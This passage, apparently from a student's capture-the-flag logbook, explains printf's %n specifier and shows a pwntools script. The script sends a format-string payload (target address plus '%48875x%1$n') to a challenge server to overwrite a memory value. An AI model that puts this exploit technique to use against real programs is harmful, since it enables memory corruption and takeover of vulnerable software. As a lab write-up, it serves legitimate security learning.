 Also, by reading `man 3 printf`, we know that in printf, `%n` is a special string formatter that instead of displaying something, loads the number of character that have been printed before itself to the variable pointed by the argument (which, in this case is our address).

```python
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

payload = (0x0804c034).to_bytes(4, byteorder='little') + b"%48875x" + b"%1$n"
p.recvuntil(b"here...")
p.sendline(payload)
p.interactive()
```

![CTF Challenge 2](/images/logbook7/01.png)

Note: The notation `%<n>$d` is just the same as applying the string formatter to the n-th value, but in a less exhaustive way.  